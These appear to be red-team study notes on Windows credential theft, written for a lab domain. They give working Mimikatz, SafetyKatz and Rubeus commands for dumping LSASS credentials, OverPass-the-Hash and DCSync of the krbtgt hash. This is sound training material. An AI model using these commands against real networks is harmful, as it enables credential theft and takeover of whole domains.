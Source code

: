 - Local Security Authority (LSA) is responsible for authentication on a Windows machine. Local Security Authority Subsystem Service (LSASS) is its service.
- LSASS stores credentials in multiple forms - NT hash, AES, Kerberos tickets and so on.
- Credentials are stored by LSASS when a user:
	- Logs on to a local session or RDP
	- Uses RunAs
	- Run a Windows service
	- Runs a scheduled task or batch job
	- Uses a Remote Administration tool
- The LSASS process is therefore a very attractive target.
- It is also the most monitored process on a Windows machine.
- **Look for LSASS only as last resort**
- Some of the credentials that can be extracted without touching LSASS
	- SAM hive (Registry) - Local credentials
	- LSA Secrets/SECURITY hive (Registry) - Service account passwords, Domain cached credentials etc.
	- DPAPI Protected Credentials (Disk) - Credentials Manager/Vault, Browser Cookies, Certificates, Azure Tokens etc.

### Mimikatz
- mimikatz can be used to extract credentials, tickets, replay credentials, play with AD security and many more interesting attacks!
- It is one of the most widely known red team tool and is therefore heavily fingerprinted.
- There are multiple tools that implement mimikatz full or partial mimikatz features.
- Dump credentials on a using Mimikatz.
```
mimikatz.exe -Command '"sekurlsa::ekeys"'
```
- Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)
```
SafetyKatz.exe "sekurlsa::ekeys"
```
- From a Linux attacking machine using impacket.

### OverPass-The-Hash
- try not use RC4 (i.e., NTLM hash) hash if you have AES256 key
- Using credential to request for the ticket
- Over Pass the Hash is used to access service on domain joined machine and Pass the Hash is for local user
- Over Pass the hash (OPTH) generate tokens from hashes or keys. Needs elevation (Run as administrator)
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain: dollarcorp.moneycorp.local /aes256:<aes256keys> /run:powershell.exe"'
```

```
SafetyKatz.exe "sekurlsa::pth /user:administrator /domain: dollarcorp.moneycorp.local /aes256:<aes256keys> /run:cmd.exe" "exit"
```
- The above commands starts a process with a logon type 9 (same as runas /netonly).
- Over Pass the hash (OPTH) generate tokens from hashes or keys.
- Below doesn't need elevation
```
Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
```
- Below command needs elevation
```
Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

### DCSync
- To extract credentials from the DC without code execution on it, we can use DCSync.
- To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges for dcorp domain:
```
Invoke-mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

```
SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```
- By default, Domain Admins, Enterprise Admins or Domain Controller privileges are required to run DCSync.